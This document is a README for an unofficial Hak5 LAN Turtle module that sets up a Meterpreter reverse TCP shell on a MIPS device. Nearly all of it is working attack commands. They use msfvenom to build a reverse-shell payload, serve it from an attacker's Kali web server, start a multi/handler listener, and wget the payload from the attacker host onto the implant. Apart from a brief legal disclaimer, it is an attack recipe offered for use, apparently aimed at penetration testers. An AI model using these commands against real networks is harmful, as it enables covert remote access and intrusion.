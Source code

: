 ## Unofficial custom Hak5 LAN Turtle module - meterpreter-mipsbe-reverse-tcp

#### LEGAL DISCLAMER
    The author does not hold any responsibility for the use of this module. Remember that attacking
    targets without prior consent is illegal and punished by law. So use this module responsibly.

#### DOWNLOAD/INSTALL

**1 - On LAN Turtle: download module from github**<br />
<br />
`wget https://raw.githubusercontent.com/ATTACKnDEFEND/LanTurtle/main/meterpreter-mipsbe-reverse-tcp -O
/etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`<br />
<br />
`chmod 755 /etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`<br />

**2 - On Kali: generate Meterpreter payload with Msfvenom**<br />
<br />
`msfvenom -p linux/mipsbe/meterpreter_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f elf > meterpreter-mipsbe-reverse-tcp`<br />
<br />
`sudo cp meterpreter-mipsbe-reverse-tcp /var/www/html/meterpreter-mipsbe-reverse-tcp`<br />

**3 - On Kali: start Meterpreter listerner**<br />
<br />
`sudo msfconsole -q -x "use exploit/multi/handler;set payload linux/mipsbe/meterpreter_reverse_tcp;set lhost <LHOST>;set LPORT <LPORT>;exploit -j"`<br />

**4 - On LAN Turtle: transfer Meterpreter payload**<br />
<br />
`wget <KALI IP>/meterpreter-mipsbe-reverse-tcp -O /etc/turtle/meterpreter/meterpreter-mipsbe-reverse-tcp`<br />
<br />
`chmod 755 /etc/turtle/meterpreter/meterpreter-mipsbe-reverse-tcp`<br />










